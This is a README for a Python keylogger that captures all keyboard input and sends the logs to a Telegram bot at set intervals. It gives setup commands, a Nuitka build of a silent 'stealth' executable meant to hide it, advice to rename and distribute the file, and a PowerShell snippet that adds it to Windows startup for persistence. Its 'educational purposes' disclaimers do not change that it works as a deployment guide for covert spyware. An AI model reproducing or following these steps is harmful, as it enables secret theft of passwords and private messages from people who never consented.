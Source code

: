 
# Keylogger with Telegram Bot Integration (Nuitka-Compiled)

> ⚠️ **Disclaimer**: This project is for **educational purposes only**. Unauthorized use of keyloggers is illegal and unethical. Do **not** use or distribute this software without **explicit permission** from all affected parties.

---

## 📌 Features

- 🔐 Captures all keyboard input.
- 📤 Sends logs to a Telegram bot at configurable intervals.
- 🛠️ Built in Python, compiled with **Nuitka** to `.exe` for performance and obfuscation.
- 🧙 Runs silently in the background without popping up a terminal window.

---

## ⚙️ Requirements

- Python 3.8 – 3.12
- [Telegram Bot Token](https://core.telegram.org/bots#botfather)
- Telegram Chat ID

Python packages:

```bash
pip install pynput requests
```

Compiler:

```bash
pip install nuitka
```

---

## 📁 Setup

1. Clone this repository or download the files.
2. Open the `config.py` file and set:

```python
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = "your_chat_id"
LOG_INTERVAL = 1800  # Log sending interval in seconds (default: 30 minutes)
```

3. Your main file should be named `keylogger.py`.

---

## 🚀 Running the Script

### Run with Python (for testing)

```bash
python keylogger.py
```

---

## 🧙‍♂️ Compile to a Stealth `.exe` using Nuitka

Use the following command to compile your Python script to a **single `.exe`** that **runs in the background** (no terminal pop-up):

```bash
nuitka --standalone --onefile --windows-disable-console keylogger.py
```

The executable will be located in the `/keylogger.dist/` folder. You can rename and distribute it as needed.

> 🧠 Tip: You can also add `--remove-output` and `--nofollow-imports` for a cleaner, smaller output.

---

## 📦 Optional: Add to Startup (Windows)

To make the program run at startup, you can move the `.exe` to the startup folder:

```powershell
$shortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.lnk"
$target = "C:\Path\To\Your\keylogger.exe"
$ws = New-Object -ComObject WScript.Shell
$sc = $ws.CreateShortcut($shortcut)
$sc.TargetPath = $target
$sc.Save()
```

---

## ❗ Disclaimer

This software is intended **solely for ethical, educational, and authorized testing** purposes. Using this software on systems or individuals without proper consent is a **criminal offense**. The creator holds **no liability** for any misuse or damage caused by this software.

---

